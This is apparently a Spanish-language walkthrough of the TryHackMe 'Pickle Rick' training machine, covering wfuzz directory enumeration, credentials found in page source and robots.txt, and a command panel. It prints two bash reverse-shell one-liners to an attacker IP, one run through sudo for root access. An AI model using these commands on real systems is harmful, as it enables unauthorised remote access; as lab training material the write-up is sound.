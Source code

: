 ```yaml
---
title : Maquina [ Pickle Rick ]
published : True
---
```


<p>Maquina a vulnerar Pickle Rick</p>
> Url : <a href="https://tryhackme.com/room/picklerick"> Pickle Rick </a>
<p></p>

<h2><font color="white"><center># pickleRick</center></font></h2>
<p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
<p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina Linux, ahora veremos que puertos están abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
<p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el código del html de el puerto 80, me topo que en el código hay un usuario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
<p>Ahora lo que haré sera enumerar directorios activos en la pagina web, con la herramienta <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ

<p></p>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
<p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
<p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
<p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecución remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"

<p></p>
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
<p>Lo cual me aprovecho de la ejecución remota de comando para hacerme una web Shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
<p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l

<p></p>
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
<p>Entonces me hago una reverse Shell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"

<p></p>
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
<p>Ok maquina <font color="red">Vulnerada</font></p>
